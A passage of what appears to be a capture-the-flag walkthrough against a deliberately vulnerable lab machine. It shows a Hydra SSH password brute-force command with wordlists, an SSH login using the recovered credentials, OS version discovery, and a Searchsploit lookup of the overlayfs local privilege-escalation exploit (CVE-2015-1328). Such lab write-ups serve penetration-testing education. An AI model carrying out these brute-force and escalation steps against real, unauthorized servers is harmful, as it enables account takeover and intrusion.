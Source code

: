 ```
$ hydra -L /home/kali/Downloads/usernames.txt -P /home/kali/Downloads/pass.txt <remoteipaddr> ssh
```

![Screenshot 2023-02-03 at 14 32 31](https://user-images.githubusercontent.com/104169244/216751954-40f2ba8f-d598-40b9-a257-685dfd51337a.png)

* The output from `Hydra` successfully displays login credentials which can be used for SSH authorization to the remote server:

```
$ ssh <username>@<remoteipaddr>:22
```

## Privilege Escalation

* From analysis of the former methodology and testing, we have now successfully authenticate with valid credentials via SSH to the server, but then identified it did not have sudo permissions and came across another tripwire tr0ll:

![Screenshot 2023-02-03 at 14 40 25](https://user-images.githubusercontent.com/104169244/216751964-34558110-3ed8-4f7a-8b94-0085f32866c2.png)

* Use `$ lsb_release -a` to identify the operating-system of the underlying server:

```
$ lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 14.04.1 LTS
Release:        14.04
Codename:       trusty
```

* Which we then again, pivoted and used a common vulnerability database [`Searchsploit`](https://www.exploit-db.com/searchsploit) to hunt for exploits relating to this operating system and version:

```
$ searchsploit 14.04
$ searchsploit linux/local/37292.c
```

![Screenshot 2023-02-03 at 14 45 45](https://user-images.githubusercontent.com/104169244/216752006-7ac392e6-b27e-4b33-a730-fcee26531565.png)

```
└─# searchsploit 14.04       
---------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                      |  Path
---------------------------------------------------------------------------------------------------- ---------------------------------
..
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalatio | linux/local/37292.c
..
---------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

└─# searchsploit -p 37292           
  Exploit: Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/37292
     Path: /usr/share/exploitdb/exploits/linux/local/37292.c
    Codes: CVE-2015-1328
 Verified: True
File Type: C source, ASCII text, with very long lines (466)
```
